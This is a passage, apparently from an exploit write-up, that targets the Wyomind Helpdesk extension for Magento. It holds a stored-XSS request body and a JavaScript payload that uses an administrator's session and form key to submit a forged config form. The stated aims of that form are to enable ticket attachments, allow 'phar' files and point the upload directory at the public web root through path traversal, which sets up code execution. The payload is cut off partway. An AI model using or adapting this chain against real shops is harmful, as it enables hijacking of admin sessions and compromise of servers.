     Hello
    -----------------------------243970849510445067673127196635
    Content-Disposition: form-data; name="message_cc"


    -----------------------------243970849510445067673127196635
    Content-Disposition: form-data; name="content"

    <p><script>alert(1)</script></p>
    -----------------------------243970849510445067673127196635
    Content-Disposition: form-data; name="hideit"


    -----------------------------243970849510445067673127196635--



    The following XSS payload shown below can be used to trigger

    1) Enabling file attachments in ticket messages
    2) Adding 'phar' to allowed file extensions
    3) Setting the attachment directory to 'helpdesk/files/../../../pub'


    <script>
    function successListener(e) {
        var doc = e.target.response
        var action=doc.getElementById('config-edit-form').action;

        function submitRequest()
        {
        var formKey = FORM_KEY;
        var xhr = new XMLHttpRequest();
        xhr.open("POST", action, true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------14303502862141221692667966053");
        xhr.withCredentials = true;
        var body = "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"form_key\"\r\n" +
          "\r\n" +
          formKey + "\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_license]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_general]\"\r\n" +
          "\r\n" +
          "1\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[general][fields][enabled][value]\"\r\n" +
          "\r\n" +
          "1\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[general][fields][log][value]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[general][fields][default_email][value]\"\r\n" +
          "\r\n" +
          "\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[general][fields][default_status][value]\"\r\n" +
          "\r\n" +
          "1\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[general][fields][pending_status][value]\"\r\n" +
          "\r\n" +
          "2\r\n" +